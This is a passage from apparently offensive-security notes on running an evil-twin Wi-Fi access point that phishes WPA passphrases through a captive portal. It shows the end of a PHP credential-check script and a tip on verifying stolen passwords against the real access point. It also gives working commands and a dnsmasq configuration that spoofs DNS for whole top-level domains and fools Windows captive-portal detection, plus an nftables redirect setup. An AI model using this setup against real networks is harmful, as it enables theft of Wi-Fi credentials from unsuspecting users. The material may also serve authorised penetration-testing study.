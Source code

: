```
  @rename($wordlist_path, $success_path);

  header('Location: index.php?success');
} else {
  # Delete temporary file and redirect user back to login page
  @unlink($wordlist_file);

  header('Location: index.php?failure');
}
?>
```
- As an alternative to using an existing handshake, we can also use a second wireless card with _wpa_supplicant_ to connect to the real AP. We would then use this to verify the credentials instead of cracking the handshake. If both target SSID and our rogue SSID match, we need to blacklist our BSSID in wpa_supplicant using "bssid_blacklist" so it doesn't try to connect back to us.

### Set up DHCP and DNS:
1. Assign an IP address to the wlan0 interface:
```
sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
```
2. Configure conf for DHCP lease (add top-level domains for target):
```
# Main options
# http://www.thekelleys.org.uk/dnsmasq/docs/dnsmasq-man.html
domain-needed
bogus-priv
no-resolv
filterwin2k
expand-hosts
domain=localdomain
local=/localdomain/
# Only listen on this address. When specifying an
# interface, it also listens on localhost.
# We don't want to interrupt any local resolution
# since the DNS responses will be spoofed
listen-address=192.168.87.1

# DHCP range
dhcp-range=192.168.87.100,192.168.87.199,12h
dhcp-lease-max=100

# This should cover most queries
# We can add 'log-queries' to log DNS queries
address=/com/192.168.87.1
address=/org/192.168.87.1
address=/net/192.168.87.1

# Entries for Windows 7 and 10 captive portal detection
address=/dns.msftncsi.com/131.107.255.255
```
3. Start dnsmasq with conf-file:
```
sudo dnsmasq --conf-file=<file>.conf
```
4. Confirm it is listening on port 53 (DNS) and 67 (DHCP):
```
sudo netstat -lnp
```
5. Set up nftables rules to force redirect DNS if DHCP provision is ignored:
```
sudo nft add table ip nat
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
```